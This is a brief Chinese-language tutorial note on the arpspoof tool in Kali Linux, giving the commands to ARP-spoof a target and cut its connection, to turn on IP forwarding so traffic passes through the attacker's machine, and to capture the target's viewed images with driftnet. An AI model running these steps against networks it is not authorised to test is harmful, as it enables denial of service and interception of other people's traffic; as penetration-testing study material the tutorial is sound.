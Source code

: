 arpspoof
################



arpspoof 是一款进行arp欺骗的工具

::

    arpspoof -i 网卡 -t 目标ip 默认网关

如果kali没有进行IP转发  那么目标就会因为配置错网而导致断网 这就是所谓的arp断网攻击

::

    开启IP转发:echo 1 >/proc/sys/net/ipv4/ip_forward
    关闭IP转发:echo 0 >/proc/sys/net/ipv4/ip_forward
    查看IP转发是否成功:cat /proc/sys/net/ipv4/ip_forward  如果显示1则表示开启成功,显示0则开启失败

开启IP转发后 流量会经过kali的主机而后再去到目标 所以这时开启arpspoof 那么目标就不会断网

因为流量通过了kali主机那么我们就可以做点手脚了

比如:

获取目标主机正在访问的图片-->工具 arpspoof 和 driftnet

::

    driftnet用法: driftnet -i 网卡

在开启路由转发后 开启arpspoof 因为流量通过了kali主机 我们就可以用driftnet获取在流量中的图片


